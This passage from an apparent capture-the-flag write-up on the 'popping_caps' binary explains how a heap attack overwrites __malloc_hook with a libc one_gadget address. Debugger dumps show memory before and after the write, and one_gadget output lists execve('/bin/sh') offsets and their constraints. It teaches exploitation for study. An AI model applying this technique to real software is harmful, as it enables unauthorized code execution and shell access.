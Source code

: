 Now the head of the linked list for the smallest size idx points to the malloc hook. We will just allocate the chunk, and write to it the address of a oneshot gadget in the libc. Here is the value before the write:

```
───────────────────────────────────────────────────────────────────── stack ────
0x00007ffe039d1ce0│+0x0000: 0x00007f81fad8a9a0  →  <_dl_fini+0> push rbp   ← $rsp
0x00007ffe039d1ce8│+0x0008: 0x0000000000000000
0x00007ffe039d1cf0│+0x0010: 0x00007f81fad74c30  →  0x0000000000000000
0x00007ffe039d1cf8│+0x0018: 0x00007f81fad74c30  →  0x0000000000000000
0x00007ffe039d1d00│+0x0020: 0x0000000000000003
0x00007ffe039d1d08│+0x0028: 0x0000560eee9a5050  →  0x0000000000000000
0x00007ffe039d1d10│+0x0030: 0x0000560eed594c80  →   push r15   ← $rbp
0x00007ffe039d1d18│+0x0038: 0x00007f81fa9aab97  →  <__libc_start_main+231> mov edi, eax
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x560eed594c37                  mov    edx, 0x8
   0x560eed594c3c                  mov    rsi, rax
   0x560eed594c3f                  mov    edi, 0x0
 → 0x560eed594c44                  call   0x560eed594870
   ↳  0x560eed594870                  jmp    QWORD PTR [rip+0x2009f2]        # 0x560eed795268
      0x560eed594876                  push   0x4
      0x560eed59487b                  jmp    0x560eed594820
      0x560eed594880                  jmp    QWORD PTR [rip+0x2009ea]        # 0x560eed795270
      0x560eed594886                  push   0x5
      0x560eed59488b                  jmp    0x560eed594820
─────────────────────────────────────────────────────── arguments (guessed) ────
0x560eed594870 (
   $rdi = 0x0000000000000000,
   $rsi = 0x00007f81fad74c30 → 0x0000000000000000,
   $rdx = 0x0000000000000008
)
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "popping_caps", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x560eed594c44 → call 0x560eed594870
[#1] 0x7f81fad8a9a0 → push rbp
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000560eed594c44 in ?? ()
gef➤  x/g 0x00007f81fad74c30
0x7f81fad74c30 <__malloc_hook>: 0x0
```

After the write:

```
gef➤  x/g 0x00007f81fad74c30
0x7f81fad74c30 <__malloc_hook>: 0x00007f81faa9338c
```

Also this is how we find the oneshot gadget:

```
one_gadget libc.so.6
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
